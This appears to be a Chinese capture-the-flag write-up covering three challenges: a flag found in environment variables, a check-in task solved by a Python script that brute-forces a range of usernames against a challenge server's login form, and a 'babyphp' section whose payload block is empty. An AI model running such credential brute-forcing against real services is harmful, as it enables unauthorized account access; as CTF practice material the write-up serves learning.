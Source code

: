 # 我太喜欢bilibili大学
Crtl + f 搜索 environment<br />发现环境变量中藏有flag<br />![image.png](./images/20231018_0001432760.png)
# 签到
写脚本爆破flag
```python
import requests

session = requests.Session()
for i in range(20200102, 20200140):
    paramsPost = {"password":"20200102","submit":"\x63d0\x4ea4","username":f"{i}"}
    headers = {"Origin":"http://ef5ac54f-851b-4e41-8056-25123b16073f.node.yuzhian.com.cn","Cache-Control":"max-age=0","Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","Upgrade-Insecure-Requests":"1","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36","Referer":"http://ef5ac54f-851b-4e41-8056-25123b16073f.node.yuzhian.com.cn/","Connection":"close","Accept-Encoding":"gzip, deflate","Accept-Language":"zh-CN,zh;q=0.9,en;q=0.8","Content-Type":"application/x-www-form-urlencoded"}
    response = session.post("http://ef5ac54f-851b-4e41-8056-25123b16073f.node.yuzhian.com.cn/index.php", data=paramsPost, headers=headers)

    print(response.text[504], end="")
```
![image.png](./images/20231018_0001449222.png)
# babyphp
payload
```php
```